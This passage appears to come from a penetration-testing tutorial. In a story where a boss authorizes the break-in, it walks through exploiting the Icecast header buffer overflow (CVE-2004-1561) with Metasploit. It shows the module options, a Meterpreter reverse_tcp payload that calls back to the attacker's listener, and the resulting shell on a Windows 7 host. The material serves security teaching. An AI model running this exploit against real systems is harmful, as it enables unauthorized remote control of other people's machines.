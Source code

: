 That sounds complicated, but in short, as one of the [references](https://nvd.nist.gov/vuln/detail/CVE-2004-1561) states, the vulnerability “allows remote attackers to execute arbitrary code via an HTTP request with a large number of headers.” Icecast version 2.0.1 and earlier is vulnerable to a [buffer overflow](https://www.cvedetails.com/cve/CVE-2004-1561/). That’s big. 

After obtaining authorization from your boss, you try exploiting this vulnerability. Thrilled, she gives permission for you to break into the machine and even change the music, which she agrees is terrible, as long as you can fix it afterward. 

# Gaining a foothold

The exploit requires a few basic options which you double-check before running this exploit. First and foremost is `RHOSTS`, but `LHOST` is important if you’re running on a VPN. You set all these options appropriately with `set <option> <value>`.

```plain text
msf6 > use exploit/windows/http/icecast_header
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/icecast_header) > options

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.1.17     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Usin
                                      g-Metasploit
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     eth0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

The options all check out! `RPORT` is set to the Icecast port we discovered earlier. You run `exploit`. 👨‍💻

```plain text
msf6 exploit(windows/http/icecast_header) > exploit

[*] Started reverse TCP handler on 192.168.1.158:4444
[*] Sending stage (175686 bytes) to 192.168.1.17
[*] Meterpreter session 1 opened (192.168.1.158:4444 -> 192.168.1.17:49323) at 2022-07-28 13:13:28 +0800

meterpreter > sysinfo
Computer        : CATHY-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```